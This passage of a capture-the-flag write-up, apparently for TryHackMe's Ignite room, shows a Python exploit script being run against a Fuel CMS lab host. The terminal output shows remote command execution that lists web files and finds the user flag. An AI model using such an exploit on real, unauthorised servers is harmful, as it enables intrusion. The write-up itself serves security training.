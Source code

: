 
I prefer `Python` Scripts, so I used one of those with `.py` extention:


After giving just the `url parameter` I had access to the machine. I navigated a bit to find the `user flag`

```bash

┌──(admin㉿PREDATOR-01)-[~/Desktop/thm/ignite]
└─$ python3 explort_fuelcms.py -u "http://10.10.143.13"
[+]Connecting...
Enter Command $ls
systemREADME.md
assets
composer.json
contributing.md
fuel
index.php
robots.txt


Enter Command $ls -all
systemtotal 52
drwxrwxrwx 4 root root  4096 Jul 26  2019 .
drwxr-xr-x 3 root root  4096 Jul 26  2019 ..
-rw-r--r-- 1 root root   163 Jul 26  2019 .htaccess
-rwxrwxrwx 1 root root  1427 Jul 26  2019 README.md
drwxrwxrwx 9 root root  4096 Jul 26  2019 assets
-rwxrwxrwx 1 root root   193 Jul 26  2019 composer.json
-rwxrwxrwx 1 root root  6502 Jul 26  2019 contributing.md
drwxrwxrwx 9 root root  4096 Jul 26  2019 fuel
-rwxrwxrwx 1 root root 11802 Jul 26  2019 index.php
-rwxrwxrwx 1 root root    30 Jul 26  2019 robots.txt


Enter Command $pwd
system/var/www/html


Enter Command $cd system
system

Enter Command $ls
systemREADME.md
assets
composer.json
contributing.md
fuel
index.php
robots.txt


Enter Command $ls -all /home
systemtotal 12
drwxr-xr-x  3 root     root     4096 Jul 26  2019 .
drwxr-xr-x 24 root     root     4096 Jul 26  2019 ..
drwx--x--x  2 www-data www-data 4096 Jul 26  2019 www-data


Enter Command $ls -all /home/www-data
systemtotal 12
drwx--x--x 2 www-data www-data 4096 Jul 26  2019 .
drwxr-xr-x 3 root     root     4096 Jul 26  2019 ..
-rw-r--r-- 1 root     root       34 Jul 26  2019 flag.txt

```
